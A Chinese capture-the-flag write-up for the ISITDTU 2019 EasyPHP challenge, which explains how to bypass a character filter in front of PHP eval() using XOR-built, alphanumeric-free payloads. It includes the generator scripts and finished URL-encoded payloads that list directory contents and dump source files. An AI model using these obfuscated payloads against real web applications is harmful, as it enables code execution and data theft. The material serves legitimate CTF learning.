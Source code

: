 # [ISITDTU 2019]EasyPHP

## 知识点

`无字母数字webshell`

## 解题

题目给出了源码

```php
<?php
highlight_file(__FILE__);

$_ = @$_GET['_'];
if ( preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', $_) )
    die('rosé will not do it');

if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )
    die('you are so close, omg');

eval($_);
?>
```

> count_chars($string, 0x3)返回一个去重的字符串(所有使用过的不同的字符)

要求所用字符小于`13`种，还有很多检测，说明这是`无字母数字webshell`

看一下过滤了哪些字符

[参考文章](https://www.shawroot.cc/1209.html)

```php
<?php

for ($i=0; $i < 128 ; $i++) { 
	if ( !preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', chr($i)) ) {
		echo chr($i);
	}
}
```

`!#%()*+-/:;<=>?@ABCHIJKLMNQRTUVWXYZ\]^abchijklmnqrtuvwxyz}~`

取反和异或没被过滤，测试一下`phpinfo()`

![](./img/[ISITDTU2019]EasyPHP-1.png)

![](./img/[ISITDTU2019]EasyPHP-2.png)

命令执行的函数都被禁用了,同时也限制了`open_basedir`在`/var/www/html`，使用`无参数rce`的`payload`

```php
print_r(scandir(.))
// 或者
print_r(glob('*.*'))
```

懒得改代码了 ，异或`php`脚本如下，[脚本](Scripts/xor_ff.php)，[参考文章](https://blog.csdn.net/weixin_45642610/article/details/119495242)

```php
<?php

#用不可见字符异或
$l = "";
$r = "";
//$argv = str_split("_GET");
$argv = str_split("phpinfo");
for($i=0;$i<count($argv);$i++)
{
    for($j=0;$j<255;$j++)
    {
        $k = chr($j)^chr(255);
        if($k == $argv[$i]){
            if($j<16){
                $l .= "%ff";
                $r .= "%0" . dechex($j);
                continue;
            }
            $l .= "%ff";
            $r .= "%" . dechex($j);
            continue;
        }
    }
}
echo "(".$l."^".$r.")";
#{%ff%ff%ff%ff^%a0%b8%ba%ab}       =_GET
#?_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
?>
```

获得的`print_r(scandir(.))`的取反内容为

```php
(%ff%ff%ff%ff%ff%ff%ff^%8f%8d%96%91%8b%a0%8d)	// print_r
(%ff%ff%ff%ff%ff%ff%ff^%8c%9c%9e%91%9b%96%8d)	// scandir
(%ff^%d1)		// .

(%ff%ff%ff%ff%ff%ff%ff^%8f%8d%96%91%8b%a0%8d)((%ff%ff%ff%ff%ff%ff%ff^%8c%9c%9e%91%9b%96%8d)((%ff^%d1)))	// print_r(scandir(.))
```

发现种类有`15`种,超过`13`种，就需要把`最少出现的字符`改为`较多出现的字符`来减少字符出现的数量，除了必要的`(` `)` `^`;以外，我们最多剩余`9`个字符的空间，逐步删除`result`里的值，当结果仍能保持`11`个，就意味着我们可以继续删除了。

 [当前代码](Scripts/xor_regex.py)

[参考代码出处](https://syunaht.com/p/2441275844.html)

```python
from collections import defaultdict


def get_mini_codes():
    """获取出现最少的url编码"""
    # 给定的字符串
    input_str = "(%ff%ff%ff%ff%ff%ff%ff^%8f%8d%96%91%8b%a0%8d)((%ff%ff%ff%ff%ff%ff%ff^%8c%9c%9e%91%9b%96%8d)((%ff^%d1)))"
    min_arr = []
    except_min_arr = []
    # 创建一个 defaultdict 以存储每个 URL 编码的计数
    url_encoding_counts = defaultdict(int)

    # 查找所有以 '%' 开头的两个字符的组合，并计数它们的出现次数
    for i in range(len(input_str) - 2):
        if (
            input_str[i] == "%"
            and input_str[i + 1].isalnum()
            and input_str[i + 2].isalnum()
        ):
            url_encoding = input_str[i : i + 3]
            url_encoding_counts[url_encoding] += 1

    min_count = min(url_encoding_counts.values())
    min_url_encodings = [
        encoding
        for encoding, count in url_encoding_counts.items()
        if count == min_count
    ]
    print(f"出现次数最少 (出现{min_count}次) 的编码为:")
    for encoding in min_url_encodings:
        print(f"{encoding} | ", end="")
        min_arr.append(encoding)
        
    except_min_url_encodings = [encoding for encoding, count in url_encoding_counts.items() if count != min_count]
    print("\n=============================\n出现次数除了最少之外的编码为:")
    for encoding in except_min_url_encodings:
        print(f"{encoding} | ", end="")
        except_min_arr.append(encoding)

    return min_arr, except_min_arr


def en(s):
    return '%' + hex(ord(s) ^ 0xFF)[2:]

from string import ascii_letters

def get_encoded():
        res = []

        p = list(ascii_letters)
        for i in p:
                for j in p:
                        for k in p:
                                for m in p:
                                        if ord(j) ^ ord(k) ^ ord(m) == ord(i):
                                                if j == k or j == m or m == k:
                                                        continue
                                                else:
                                                        # print(i + "==" + j + "^" + k + "^" + m, end="\t")
                                                        # print(
                                                        #     '{:0>2}  =>  ["{:0>2}","{:0>2}","{:0>2}"]'.format(
                                                        #         en(i), en(j), en(k), en(m)
                                                        #     )
                                                        # )
                                                        res.append([en(i), en(j), en(k), en(m)])
                                                        break

        return res


if __name__ == "__main__":
    mini_codes, except_mini_codes = get_mini_codes()
    all_codes = mini_codes + except_mini_codes
    coded = get_encoded()
    print("\n===================")
    for arr in coded:
        # print(arr)
        # if arr[0] in mini_codes and arr[1] in except_mini_codes and arr[2] in except_mini_codes and arr[3] in except_mini_codes:
        if arr[0] in all_codes and arr[1] in all_codes and arr[2] in all_codes and arr[3] in all_codes:
            print(f"{arr[0]} ==> {arr[1]}^{arr[2]}^{arr[3]}")
            all_codes.remove(arr[0])
```

用脚本替换半天还是不行，暂时先用别人的脚本了

```python
def tail(s):
    s = list(filter(None, s.split('^')[0].strip('()').split('%')))
    p = ['ff']*len(s)
    return [p, p]


def head(s):
    s = list(filter(None, s.split('^')[0].strip('()').split('%')))
    return s


def add(l):
    s = ''
    for i in l:
        s += '%'+i
    return s


s = '(%8f%8d%96%91%8b%a0%8d)^(%ff%ff%ff%ff%ff%ff%ff)'
l = head(s)
p = tail(s)
to_fix_list = ['8b', '91', '8d']
to_replace = [["8c", "9b", "9c"], ["96", "9c", "9b"], ["9e", "9c", "8f"]]
for t, to_fix in enumerate(to_fix_list):
    for n, i in enumerate(l):
        if to_fix == i:
            s = s.replace(to_fix, to_replace[t][0], 1)
            p[0][n] = to_replace[t][1]
            p[1][n] = to_replace[t][2]

print("{}^({})^({})".format(s, add(p[0]), add(p[1])))
```

```
print_r=((%8f%9e%96%96%8c%a0%9e)^(%ff%ff%ff%ff%ff%ff%ff)^(%ff%9c%ff%9c%9c%ff%9c)^(%ff%8f%ff%9b%9b%ff%8f))

scandir=((%ff%ff%ff%ff%ff%ff%ff)^(%8c%9c%9e%96%9b%96%9e)^(%ff%ff%ff%9c%ff%ff%9c)^(%ff%ff%ff%9b%ff%ff%8f))
```

```
?_=((%8f%9e%96%96%8c%a0%9e)^(%ff%ff%ff%ff%ff%ff%ff)^(%ff%9c%ff%9c%9c%ff%9c)^(%ff%8f%ff%9b%9b%ff%8f))(((%ff%ff%ff%ff%ff%ff%ff)^(%8c%9c%9e%96%9b%96%9e)^(%ff%ff%ff%9c%ff%ff%9c)^(%ff%ff%ff%9b%ff%ff%8f))((%d1)^(%ff)));
```

读flag，用`end()`代替数组选择。

```php
show_source(end(scandir(.)));
```

```
?_=((%8d%9c%97%a0%88%8d%97%8d%9c%a0%a0)^(%9a%97%9b%88%a0%9a%9b%9b%8d%9c%9a)^(%9b%9c%9c%a0%88%9b%9c%9c%9c%a0%a0)^(%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff))(((%a0%97%8d)^(%9a%9a%9b)^(%a0%9c%8d)^(%ff%ff%ff))(((%8d%a0%88%97%8d%9b%9c)^(%9a%9c%8d%9a%9b%9a%8d)^(%9b%a0%9b%9c%8d%97%9c)^(%ff%ff%ff%ff%ff%ff%ff))(%d1^%ff)));
```





[参考文章1](https://blog.csdn.net/mochu7777777/article/details/105786114)

[参考文章2](https://syunaht.com/p/2441275844.html)